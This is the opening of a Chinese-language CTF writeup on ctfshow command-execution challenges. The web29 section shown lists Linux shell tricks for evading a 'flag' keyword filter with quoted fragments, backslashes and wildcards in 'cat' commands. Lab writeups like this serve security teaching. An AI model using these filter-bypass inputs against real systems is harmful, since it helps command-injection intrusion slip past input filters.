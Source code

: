 ```yaml
---
title: "ctfshow Web入门[命令执行] web29-55 Writeup"
date: 2022-08-08T16:55:37+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



命令执行及绕过技巧



## web29

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208061200800.png)

过滤了 flag

下面介绍一下 Linux 下几种绕过关键字过滤的方式

```bash
cat fl''ag.php
cat fl""ag.php
cat fl\ag.php
cat fla*
cat fla?.???
```
